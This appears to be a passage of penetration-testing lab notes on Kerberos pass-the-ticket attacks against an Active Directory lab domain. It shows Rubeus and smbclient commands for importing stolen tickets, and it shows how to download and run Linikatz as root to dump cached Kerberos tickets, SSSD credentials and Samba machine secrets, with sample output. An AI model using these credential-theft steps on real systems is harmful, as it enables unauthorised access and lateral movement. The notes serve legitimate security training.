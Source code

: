 **On Windows:**
```cmd
# Import converted kirbi with Rubeus
C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi

# Verify import
klist

# Test access
dir \\dc01\julio
```

**On Linux:**
```bash
# Use converted ccache
export KRB5CCNAME=/path/to/converted.ccache
klist
smbclient //dc01/julio -k -c ls
```

---

## 🔍 Advanced Tool: Linikatz

### Overview
**Linikatz** is a Linux equivalent of Mimikatz, designed to extract credentials from various Linux AD integration systems including FreeIPA, SSSD, Samba, and Vintella.

### Installation and usage
```bash
# Download Linikatz
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
chmod +x linikatz.sh

# Run as root (required)
sudo ./linikatz.sh
```

### What Linikatz extracts
- **Kerberos tickets** from multiple implementations
- **Cached credentials** from SSSD
- **Machine secrets** from Samba
- **Various ticket formats** (ccache, keytab)

### Example output
```bash
I: [sss-check] SSS AD configuration
I: [kerberos-check] Kerberos configuration  
I: [check] Machine Kerberos tickets
I: [kerberos-check] User Kerberos tickets

Ticket cache: FILE:/tmp/krb5cc_647401106_HRJDux
Default principal: julio@INLANEFREIGHT.HTB
Valid starting       Expires              Service principal
10/07/2022 11:32:01  10/07/2022 21:32:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB

# Results saved in linikatz.* folder
```

---